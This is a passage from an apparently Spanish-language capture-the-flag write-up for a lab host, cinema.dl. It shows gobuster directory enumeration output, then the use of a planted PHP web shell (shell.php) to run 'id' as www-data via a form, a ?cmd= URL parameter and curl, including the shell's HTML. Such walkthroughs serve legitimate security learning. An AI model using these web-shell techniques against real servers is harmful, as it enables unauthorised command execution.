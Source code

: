 ```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cinema.dl
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                actores
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/andrewgarfield       (Status: 301) [Size: 315] [--> http://cinema.dl/andrewgarfield/]
Progress: 20 / 21 (95.24%)
===============================================================
Finished
```
## FASE INTRUSIÓN:

vamos a lo que nos ha encontrado:
http://cinema.dl/andrewgarfield/
y vemos ahí nuestra shell.php

con EL código QUE METIMOS nos aparece una ventania en la que podemos ejecutar comandos, vamos a:
```
http://cinema.dl/andrewgarfield/shell.php
```
e introduciomos "id"
 ```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
si no os funciona podeis incrustar la consulta en:
```
http://cinema.dl/andrewgarfield/shell.php?cmd=id
```
o hacer un curl:
```bash
curl "http://cinema.dl/andrewgarfield/shell.php?cmd=id"
```
```                                                                                                                   
<html>
<body>
<form method="GET" name="shell2.php">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
